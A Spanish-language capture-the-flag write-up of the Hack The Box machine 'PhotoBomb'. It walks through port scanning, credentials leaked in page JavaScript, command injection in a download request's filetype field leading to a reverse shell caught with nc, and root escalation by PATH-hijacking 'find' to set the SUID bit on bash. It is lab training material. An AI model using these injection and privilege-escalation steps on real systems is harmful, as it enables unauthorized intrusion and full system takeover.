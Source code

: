 ```yaml
---
title: PhotoBomb Writeup
author: miguel3023
date: 2022-11-29
categories: [Writeup, HTB]
tags: [Linux, CTF, Easy, CommandInjection, Pathhijacking]
image:
  path: ../../assets/img/commons/PhotoBomb/PhotoBomb.png
  width: 800
  height: 450 
---
```


En esta máquina veremos un information leakage para ver credenciales, inyectaremos comandos a través de una petición en la información de una descarga y haremos un Pathhijacking para convertirnos en root.

## Reconocimiento

Empezamos con un escaneo para detectar los puertos que están abiertos

```
❯ nmap -p- --min-rate 5000 --open -n -v -Pn 10.10.11.182 -oG OpenPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.92 ( https://nmap.org ) at 2022-11-29 18:11 -05
Initiating SYN Stealth Scan at 18:11
Scanning 10.10.11.182 [65535 ports]
Discovered open port 22/tcp on 10.10.11.182
Discovered open port 80/tcp on 10.10.11.182
Completed SYN Stealth Scan at 18:12, 14.69s elapsed (65535 total ports)
Nmap scan report for 10.10.11.182
Host is up (0.21s latency).
Not shown: 65529 closed tcp ports (reset), 4 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Ahora vemos los servicios y la versión de los mismos en base a los puertos abiertos

```
❯ nmap -sC -sV -p22,80 10.10.11.182 -oN targeted
Starting Nmap 7.92 ( https://nmap.org ) at 2022-11-29 18:33 -05
Nmap scan report for 10.10.11.182
Host is up (0.11s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e2:24:73:bb:fb:df:5c:b5:20:b6:68:76:74:8a:b5:8d (RSA)
|   256 04:e3:ac:6e:18:4e:1b:7e:ff:ac:4f:e3:9d:d2:1b:ae (ECDSA)
|_  256 20:e0:5d:8c:ba:71:f0:8c:3a:18:19:f2:40:11:d2:9e (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://photobomb.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Con **whatweb** vemos el software que se está empleando en la página web por el puerto 80

```
❯ whatweb http://10.10.11.182
http://10.10.11.182 [302 Found] Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], 
IP[10.10.11.182], RedirectLocation[http://photobomb.htb/], Title[302 Found], nginx[1.18.0]
```

Vemos que nos hace un redirect, por lo tanto, añadimos el dominio al **/etc/hosts**

```
❯ echo "10.10.11.182  photobomb.htb" >> /etc/hosts
```
Volvemos a lanzar el **whatweb** y ya veremos lo que se emplea en la página

```
❯ whatweb http://photobomb.htb
http://photobomb.htb [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], IP[10.10.11.182], Script, 
Title[Photobomb], UncommonHeaders[x-content-type-options], X-Frame-Options[SAMEORIGIN], X-XSS-Protection[1; mode=block], nginx[1.18.0]
```
Si nos vamos a la página, vemos que hay un "click here" que nos redirige a "printer". Pero nos pide credenciales si intentamos ir a esa ruta. Si vemos el código fuente veremos un "photobomb.js" y lo vemos, encontraremos las credenciales.

```js
function init() {
  // Jameson: pre-populate creds for tech support as they keep forgetting them and emailing me
  if (document.cookie.match(/^(.*;)?\s*isPhotoBombTechSupport\s*=\s*[^;]+(.*)?$/)) {
    document.getElementsByClassName('creds')[0].setAttribute('href','http://pH0t0:b0Mb!@photobomb.htb/printer');
  }
}
window.onload = init;

```
## Intrusión

Ahora veremos que podemos descargar imágenes. Veremos cómo se realiza esa solicitud con **BurpSuite**

![Burpsuite]({{ 'assets/img/commons/PhotoBomb/BurpSuite.png' | relative_url }}){: .center-image }
_Petición por Burp_

En la parte de "filetype" podemos inyectar comandos, en este caso usaremos python3

`Nota:` Sé que es python porque si pones "http://photobomb.htb/printer/lll" y analisas el código, se ve un directorio con doble barra baja en la máquina local, eso me da a pensar que es con python.

En [payloadsallthethings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python) hay varias maneras de hacerlo. Antes que nada nos pondremos en escucha con nc por el puerto que le indicamos cuando carguemos el comando

![Burpsuite]({{ 'assets/img/commons/PhotoBomb/Injection.png' | relative_url }}){: .center-image }
_Inyección_

Hay que tener en cuenta que toca urlencodearlo

```
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.38] from (UNKNOWN) [10.10.11.182] 33430
/bin/sh: 0: can't access tty; job control turned off
$ whoami
wizard
$ hostname -I 
10.10.11.182
```
## Privesc

Vemos que tenemos privilegios sudoers para ejecutar un comando y también para cambiar las variables de entorno

```
wizard@photobomb:~/photobomb$ sudo -l
Matching Defaults entries for wizard on photobomb:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wizard may run the following commands on photobomb:
    (root) SETENV: NOPASSWD: /opt/cleanup.sh
wizard@photobomb:~/photobomb$ 
```

Vemos el script que podemos ejecutar

```bash
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb

# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
```
Vemos que al final ejecuta el comando **find**, por lo tanto vamos a crearnos un fichero con ese nombre, para darle permisos SUID a la bash y le damos permiso de ejecución

```
wizard@photobomb:~/photobomb$ echo "chmod u+s /bin/bash" > find
wizard@photobomb:~/photobomb$ chmod +x find
```
Ahora modificamos el path para que nos ejecute primero nuestro fichero y listo, podemos leer la flag de root

```
wizard@photobomb:~/photobomb$ sudo PATH=$PWD:$PATH /opt/cleanup.sh 
wizard@photobomb:~/photobomb$ ls -l /bin/bash 
-rwsr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash
wizard@photobomb:~/photobomb$ bash -p 
bash-5.0# cat /root/root.txt 
bc983ca1c7d8dacebc86993f8f786c31
bash-5.0#
```
